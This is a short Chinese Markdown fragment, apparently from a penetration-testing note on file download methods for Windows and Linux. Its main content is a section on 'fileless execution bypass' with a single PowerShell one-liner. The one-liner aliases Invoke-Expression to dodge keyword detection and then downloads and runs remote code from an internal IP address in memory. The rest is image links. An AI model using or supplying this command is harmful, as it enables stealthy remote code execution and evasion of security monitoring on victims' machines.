 ![powershell-1](Windows&Linux常见文件下载方法/powershell-1.png)



##### 无文件落地执行bypass：

```
powershell set-alias -name eval -value Invoke-Expression;eval(New-Object Net.WebClient).DownloadString('http://192.168.10.11/eval.txt')
```

![powershell-3](Windows&Linux常见文件下载方法/powershell-3.png)
